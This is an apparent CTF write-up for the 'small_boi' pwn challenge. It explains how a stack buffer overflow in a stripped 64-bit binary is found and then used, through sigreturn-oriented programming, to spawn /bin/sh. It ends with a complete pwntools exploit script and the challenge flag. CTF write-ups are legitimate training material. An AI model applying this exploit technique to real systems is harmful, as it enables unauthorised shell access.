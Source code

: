 # SMALL BOI (100)

We're provided with a 64bit stripped binary.

We execute it and it's just asking for input without doing anything. 

Nothing to note so let's open it in IDA and analyse the disassembly.

![img1](ida.png)

No PLT entries registred so no linking we can assume that this binary is implemented in pure assembly no library function calls just chain of instructions in assembly.

It calls the function at offset `0x40018C` then it make an exit syscall.

Let's analyse that function:

![img2](ida1.png)

it makes a syscall with value of `0` in `EAX` register so after referencing to the syscall table for x64 arch we find that it's a read syscall.


![img3](syscall.png)

So it reads `0x200` bytes from `STDIN` and puts it in a buffer locacted in the `stack`.

It seems to control the number of bytes but it still may be a Buffer Overflow vulnerability here if the size allocated for the buffer is less than 0x200 let's try that.


```bash
[13:06:21]kerro@BOX:~/csaw/pwn/small_boi$ python -c 'print "A"*0x200' | ./small_boi 
Segmentation fault
[13:06:23]kerro@BOX:~/csaw/pwn/small_boi$ 
```

and Yes! `Segmentation fault` let's see which register caused that fault exactly:

![img4](fault.png)

We control the Instructions Pointer (RIP).

My first thoughts was to control `EAX`,`RDI`,`RSI` AND `RDX` to make a `execve("/bin/sh",0,0)` but after seeing the gadgets provided in the binary i realised that it's impossible(for me) to do that and we don't have any library linked so no `/bin/sh` string .

![img5](gadgets.png)

But look closely, at line 20 thats a syscall with code `0xf` different from `exit` and `read` syscalls. Referencing again to x64 syscall table we know that it's a [Sigreturn](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming) syscall.

After googling the technique we know that it builds a new frame in the stack in which allocated and initialized the new frame context (new registers values and new stack...)

First let's determine  the offset to control the RIP:

![img6](off.png)

It's 40.

Now let's try performing this by making the program jump to that syscall and filling the stack with junk values and see if we control all the registers or not.

![img7](pay1.png)


![img8](pay2.png)

  And yes we control everything. Now the big problem is where can we find `/bin/sh` string to perform the desired call `execve("/bin/sh",0,0)` ?
  
  Well that took me a while thinking about a way to get that string or a way to write it in a writable area in the binary and return to it.
  
  But after examining the strings of the binary I figured out that it's here already!
  
  ![img9](strings.png)
  
  So all we have to do is to determine its offset in the `.rodata` section (ReadOnly data) .
  
  ![img10](binsh.png)
  
  Its offset is `0x4001ca` .
  So now the attack scenario is simple: perform a buffer overflow attack to control the instructions pointer in order to make a sigreturn syscall then fill the rest of the memory with the context of the new frame we don't even have to know the location of the new frame just fill enough space.
  
  Pwntools will help us to construct the new frame.
 
  New frame context content:
  
  -)RAX=59 (the number of the execve syscall)
  
  -)RDI=address_of_`/bin/sh`_string
  
  -)RSI=0 (second argument of execve)
  
  -)RDX=0 (third argument of execve)
  
  -)RSP=random_logic_adress (with RW permissions) we can use `vmmap` in gdb-peda to get such adress.
  
  -)RIP=syscall_gadget(provided at 35th line in gadgets)
   
  Here's the final exploit:
  
  ```python
  from pwn import *
context.clear(arch="amd64")
paylaod = ""
paylaod += "A"*40
paylaod += p64(0x000000000040018a)
paylaod += p64(0xf)
paylaod += p64(0x0000000000400185)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 59
frame.rdi = 0x4001ca
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0x0000000000601000
frame.rip = 0x0000000000400185
paylaod += str(frame)*10
p = process("./small_boi")
p.sendline(paylaod)
p.interactive()
```
And here we are!

![img11](final.png)

FLAG: `flag{sigrop_pop_pop_pop}`
